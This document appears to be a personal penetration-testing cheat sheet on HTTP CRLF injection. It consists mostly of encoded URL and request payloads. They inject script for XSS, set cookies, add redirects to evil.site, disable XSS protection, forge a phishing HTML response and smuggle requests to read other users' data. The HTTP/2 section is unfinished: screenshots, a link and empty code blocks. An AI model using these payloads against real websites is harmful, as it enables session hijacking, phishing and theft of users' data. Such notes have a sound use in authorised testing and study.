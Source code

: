 # Content 
- [HTTP/1.1 CRLF injeciton](#http11-crlf-injeciton)
  - [CRLF injeciton can lead to](#crlf-injeciton-can-lead-to)


## HTTP/1.1 CRLF injeciton
**where to inject** 
- url path
```
http://www.example.net/%0D%0A
```
- parameter
```
http://www.example.net/?param=value%0D%0A
```

### **CRLF injeciton can lead to**
#### XSS
```
http://www.example.net/?name=Bob%0D%0A<script>alert(document.domain)</script>
```
#### add a header

- add cookie

```
http://www.example.net/%0D%0ASet-Cookie:mycookie=myvalue   
```


- open redirect
```
http://www.example.net/%0D%0ALocation:http://evil.site    
```
- XSS Bypass
```
http://example.com/%0d%0aContent-Length:35%0d%0aX-XSS-Protection:0%0d%0a%0d%0a23%0d%0a<svg%20onload=alert(document.domain)>%0d%0a0%0d%0a/%2f%2e%2e     

```
- Write HTML
```
http://www.example.net/index.php?lang=en%0D%0AContent-Length%3A%200%0A%20%0AHTTP/1.1%20200%20OK%0AContent-Type%3A%20text/html%0ALast-Modified%3A%20Mon%2C%2027%20Oct%202060%2014%3A50%3A18%20GMT%0AContent-Length%3A%2034%0A%20%0A%3Chtml%3EYou%20have%20been%20Phished%3C/html%3E 
```

#### Request Smuggling

if u can add headers 
```
GET /%20HTTP/1.1%0d%0aHost:%20redacted.net%0d%0aConnection:%20keep-alive%0d%0a%0d%0a HTTP/1.1

HTTP/1.1 200 OK
Connection: keep-alive
```

try to make smuggle request 
```
GET /%20HTTP/1.1%0d%0aHost:%20redacted.net%0d%0aConnection:%20keep-alive%0d%0a%0d%0aGET%20/redirplz%20HTTP/1.1%0d%0aHost:%20oastify.com%0d%0a%0d%0aContent-Length:%2050%0d%0a%0d%0a HTTP/1.1
```

or try to read other user's data
```
GET /%20HTTP/1.1%0d%0aHost:%20redacted.net%0d%0aConnection:%20keep-alive%0d%0a%0d%0aGET%20/%20HTTP/1.1%0d%0aFoo:%20bar HTTP/1.1
```


## HTTP/2 CRLF injection 
**where to inject** 
- headers


![Screenshot_48](https://github.com/kiro6/penetration-testing-notes/assets/57776872/d87435ea-415c-4df8-85ae-c3edd954803b)

- pseudo-headers


![Screenshot_49](https://github.com/kiro6/penetration-testing-notes/assets/57776872/0ae6ab25-dfdd-454a-b9d5-0b2ccc86925d)

Injecting newlines into pseudo-headers [source](https://portswigger.net/web-security/request-smuggling/advanced/http2-exclusive-vectors)

![Screenshot_50](https://github.com/kiro6/penetration-testing-notes/assets/57776872/7b499db5-2b9d-4510-a30e-5c2ae6e868b9)


### CRLF injeciton can lead to
http smuggling
```
```

add headers 
```
```

